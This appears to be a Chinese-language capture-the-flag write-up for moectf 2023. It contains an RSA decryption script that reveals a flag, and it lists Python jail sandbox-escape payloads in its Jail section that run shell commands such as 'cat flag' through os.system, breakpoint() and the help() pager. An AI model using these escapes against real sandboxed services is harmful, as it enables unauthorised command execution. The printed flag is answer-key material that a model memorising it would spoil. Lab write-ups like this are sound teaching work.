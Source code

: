 ### Crypto 入门指北

拿着题目里脚本跑一遍

```python
from Crypto.Util.number import * # 一个非常好用的crypto库

p = 0xe82a76eeb5ac63e054128e040171630b993feb33e0d3d38fbb7c0b54df3a2fb9b5589d1205e0e4240b8fcb4363acaa4c3c44dd6e186225ebf3ce881c7070afa7
q = 0xae5c2e450dbce36c8d6d1a5c989598fc01438f009f9b4c29352d43fd998d10984d402637d7657d772fb9f5e4f4feee63b267b401b67704979d519ad7f0a044eb
c = 0x4016bf1fe655c863dd6c08cbe70e3bb4e6d4feefacaaebf1cfa2a8d94051d21e51919ea754c1aa7bd1674c5330020a99e2401cb1f232331a2da61cb4329446a17e3b9d6b59e831211b231454e81cc8352986e05d44ae9fcd30d68d0ce288c65e0d22ce0e6e83122621d2b96543cec4828f590af9486aa57727c5fcd8e74bd296
e = 65537
n = p*q
phi = (p-1) * (q-1) # 你知道什么是 欧拉函数吗 [1]
d = pow(e, -1, phi) # 什么是乘法逆元？ [2]
m = pow(c,d,n)
print(long_to_bytes(m))
```

```
b'moectf{weLCome_To_moeCTf_CRypTo_And_enjoy_THis_gAme!_THis_is_yoUR_fLAg!}'
```

### baby_e

小e攻击秒了

![image-20230917145656876](https://ttycp3.oss-cn-beijing.aliyuncs.com/img/image-20230917145656876.png)

## Jail

### Jail Level 0

```
__imoprt__('os').system('cat flag')
```

### Jail Level 1

```
breakpoint()#开启断点调试
之后
__imoprt__('os').system('cat flag')
```

### Jail Level 2

```
help()#进入帮助页面
help> os#查询os造成溢出
!cat flag#命令执行
```
